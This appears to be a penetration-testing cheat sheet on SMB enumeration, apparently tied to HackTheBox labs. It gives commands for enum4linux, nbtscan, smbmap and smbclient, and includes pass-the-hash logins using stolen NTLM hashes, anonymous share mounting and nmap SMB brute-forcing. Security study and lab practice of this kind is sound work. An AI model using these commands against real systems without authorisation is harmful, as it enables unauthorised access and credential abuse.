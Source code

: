 # SMB Scanning
This module contains method sof gathering information from targets that have Samaba, or the Windows sharing service (SMB) enabled.
## Enum4LINUX

`enum4linux (TARGET IP)`

## NBTScan

```nbtscan (TARGET IP ADDRESS)```

## SMBMap
The basic syntax fo `smbmap` is as follows,
```smbmap -H (TARGET IP ADDRESS)```
But, if you have access to an NTLM hash, let's use `0B186E661BBDBDFFFFFFFFFFF8B9FD8B` for example, you can append the common Windows NULL string along with a colon, `aad3b435b51404eeaad3b435b51404ee` to it as,
```
aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDFFFFFFFFFFF8B9FD8B
```
and pass along the username, let's say `user123` for example, of the credentials to get more SMB map information like so,
```
wnl8:/pwnt/windows/smbmap# ./smbmap.py -u user123 -p 'aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDFFFFFFFFFFF8B9FD8B' -H (TARGET IP ADDRESS)
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authentiate
[+] User session establishd on (TARGET IP ADDRESS)...
[+] IP: (TARGET IP ADDRESS):445	Name: ypuffy.hackthebox.htb                             
	Disk                                                  	Permissions
	----                                                  	-----------
	user123's Files                                    	READ, WRITE
	IPC$                                              	NO ACCESS
'
```
## SMBClient
SMBClient is very bad software and I believe it's because there are too many variables at stake when trying to successfully use it. Your results may vary, and please do not take any authentication or listing errors as true. Test your enumerated credentials and data using other tools as well. This section describes methods for mounting and listing directories in Samaba (LINUX)/Windows shares.
### Target information
Attempt to mapp the share without any credentials,

```smbclient -N -L (TARGET IP)```

### Mounting shares
To mount a share without knowing any valid users (anonymous/guest login),
```
smbclient "\\\\(TARGET IP)\\IPC\$\\" -N
```
To mount a share with an enumerated username,
```
smbclient "\\\\(TARGET IP)\\IPC\$\\" -N -U (USER)
```
To mount a share with a username and stolen NTLM hash,
```
root@attacker-machine:~# smbclient --user=(TARGET USERNAME) --pw-nt-hash -m smb3 \\\\(TARGET IP ADDRESS)\\(TARGET SHARE)\\ (NTLM HASH)
```
e.g.
```
root@attacker-machine:~# smbclient --user=arm554 --pw-nt-hash -m smb3 -L 172.16.0.10 \\\\172.16.0.10\\ 6361DEA164EE8FE91FE7B117FBC9CA5E
```

### File Transfers
To get a file from the target server,

`get "filename with or without spaces.txt"`

## NMAP
The NMAP Scripting Engine (NSE) can be used to brute-force accounts on the server,

`nmap --script smb-brute.nse -p445 (TARGET IP)`
